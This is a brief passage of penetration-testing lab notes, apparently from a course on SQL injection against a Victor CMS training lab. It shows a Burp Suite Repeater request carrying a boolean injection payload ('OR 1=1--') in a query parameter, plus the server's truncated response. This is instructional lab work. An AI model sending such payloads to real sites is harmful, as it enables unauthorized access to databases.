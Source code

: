 `burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /post.php?post=1111+OR+1=1--📌 HTTP/2
Host: vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=j0fevhs6826gn9bfa8chjfvci2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Response`:
```http
HTTP/2 200 OK📌
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=UTF-8
Date: Tue, 10 Dec 2024 22:36:12 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 15463

[...]
```

![Lab - Victor CMS 2](./assets/04_sql_injection_attacks_lab_victor_cms_2.png)
